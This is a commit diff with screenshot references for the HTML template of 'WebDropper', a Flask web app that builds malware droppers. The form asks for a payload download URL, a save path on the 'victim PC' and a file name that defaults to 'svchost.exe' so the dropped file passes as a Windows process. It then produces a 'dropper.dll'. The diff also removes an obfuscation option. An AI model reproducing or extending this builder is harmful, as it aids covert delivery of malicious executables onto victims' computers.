

Before and after one commit to dispetcherr/webdropper, a Flask app: page / in a window 1280 px wide. Shown: the top 781 px of the page, without its empty margins (308-971 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme; the visitor is signed in with stand-in values (Sample User, id 1).

Commit message:
Update builder.html

```diff
--- a/templates/builder.html
+++ b/templates/builder.html
@@ -1,5 +1,5 @@
 <!DOCTYPE html>
-<html lang="ru">
+<html lang="en">
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
@@ -24,7 +24,7 @@
     <div class="container">
         <h1>WebDropper</h1>
         <form id="buildForm">
-            <label>URL (ссылка на файл)</label>
+            <label>Download URL (exe file)</label>
             <input type="text" name="url" placeholder="https://example.com/payload.exe" required>
 
             <label>Save Path</label>
@@ -36,18 +36,13 @@
                 <option value="C:\Program Files">Program Files</option>
             </select>
 
-            <label>Message Box</label>
-            <input type="text" name="message" value="Installation complete!">
+            <label>Message Box (leave empty for no message)</label>
+            <input type="text" name="message" placeholder="Installation complete!" value="">
 
-            <label>File Name</label>
-            <input type="text" name="custom_filename" placeholder="libhelper.dll">
+            <label>File Name (saved on victim PC)</label>
+            <input type="text" name="custom_filename" placeholder="svchost.exe" value="svchost.exe">
 
-            <div class="checkbox-group">
-                <input type="checkbox" name="obfuscate" checked>
-                <label style="margin:0;">Obfuscate</label>
-            </div>
-
-            <button type="submit" class="btn">Build</button>
+            <button type="submit" class="btn">Build Dropper</button>
         </form>
         <div class="status" id="status">Ready</div>
         <div class="footer">WebDropper by defensow</div>
@@ -70,7 +65,7 @@
                 link.href = URL.createObjectURL(blob);
                 link.download = 'dropper.dll';
                 link.click();
-                status.textContent = 'Download Started!';
+                status.textContent = 'Download started!';
                 status.style.color = '#00ff88';
             } catch (err) {
                 status.textContent = 'Error: ' + err.message;
```
